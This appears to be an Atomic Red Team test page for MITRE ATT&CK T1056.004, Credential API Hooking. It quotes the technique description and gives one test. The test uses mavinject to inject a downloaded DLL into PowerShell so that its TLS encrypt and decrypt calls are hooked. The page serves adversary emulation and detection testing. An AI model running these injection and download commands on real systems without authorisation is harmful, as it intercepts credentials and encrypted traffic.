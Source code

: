 # T1056.004 - Credential API Hooking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1056/004)
<blockquote>Adversaries may hook into Windows application programming interface (API) functions to collect user credentials. Malicious hooking mechanisms may capture API calls that include parameters that reveal user authentication credentials.(Citation: Microsoft TrojanSpy:Win32/Ursnif.gen!I Sept 2017) Unlike [Keylogging](https://attack.mitre.org/techniques/T1056/001),  this technique focuses specifically on API functions that include parameters that reveal user credentials. Hooking involves redirecting calls to these functions and can be implemented via:

* **Hooks procedures**, which intercept and execute designated code in response to events such as messages, keystrokes, and mouse inputs.(Citation: Microsoft Hook Overview)(Citation: Elastic Process Injection July 2017)
* **Import address table (IAT) hooking**, which use modifications to a process’s IAT, where pointers to imported API functions are stored.(Citation: Elastic Process Injection July 2017)(Citation: Adlice Software IAT Hooks Oct 2014)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
* **Inline hooking**, which overwrites the first bytes in an API function to redirect code flow.(Citation: Elastic Process Injection July 2017)(Citation: HighTech Bridge Inline Hooking Sept 2011)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages](#atomic-test-1---hook-powershell-tls-encryptdecrypt-messages)


<br/>

## Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages

auto_generated_guid: de1934ea-1fbf-425b-8795-65fb27dd7e33

Hooks functions in PowerShell to read TLS Communications
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | Dll To Inject | Path | PathToAtomicsFolder&#92;T1056.004&#92;bin&#92;T1056.004x64.dll|
| server_name | TLS Server To Test Get Request | Url | https://www.example.com|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
mavinject $pid /INJECTRUNNING #{file_name}
curl #{server_name} -UseBasicParsing
```




#### Dependencies:  Run with `powershell`!
##### Description: T1056.004x64.dll must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1056.004/bin/T1056.004x64.dll" -OutFile "#{file_name}"
```




<br/>
